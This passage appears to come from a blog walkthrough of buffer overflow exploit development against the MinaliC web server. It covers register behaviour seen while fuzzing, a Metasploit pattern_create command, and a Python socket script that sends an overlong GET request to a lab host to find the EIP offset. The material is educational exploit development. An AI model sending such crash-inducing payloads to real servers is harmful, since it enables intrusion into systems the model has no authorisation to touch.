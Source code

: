If application is installed in ```c:\minalic\``` path, EBX is pointing to value of Host header (BBBB...). 

![Fuzzing results](https://github.com/smarinovic/smarinovic.github.io/blob/master/assets/img/minalic_05.png?raw=true)

If application is installed in ```c:\vulnerabesoftware\minalic\``` path, besides EBX which is pointing to Host header value, ESP is pointing to last 6 bytes from URL in GET request.

![Fuzzing results](https://github.com/smarinovic/smarinovic.github.io/blob/master/assets/img/minalic_06.png?raw=true)

But if path is longer none of the registers is pointing to part of our payload, which we had at first place. We will move application to: ```c:\vulnerablesoftware\minalic\``` path so that we can continue with this walkthrough. By moving application to new folder, payload length needs to be changed to 240.


## Finding EIP location ##

In order to find EIP location, we need to send unique pattern which can be generated by msf-pattern_create script:

```
msf-pattern_create -l 240
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9
```

And sent via python script:

```
#!/usr/bin/python

import socket, time

host = "172.16.24.213"
port = 80

x=240
pattern = "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9"
#buffer =  "GET /" + (x) * "A" + " HTTP/1.1\r\n"
buffer =  "GET /" + pattern + " HTTP/1.1\r\n"
buffer += "Host: " + 50 * "B" + "\r\n"
buffer += "User-Agent FUZZ\r\nAccept: FUZZ\r\nConnection: close\r\n\r\n"
buffer += "C" * 360
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((host,port))
s.send(buffer)
s.close()
```

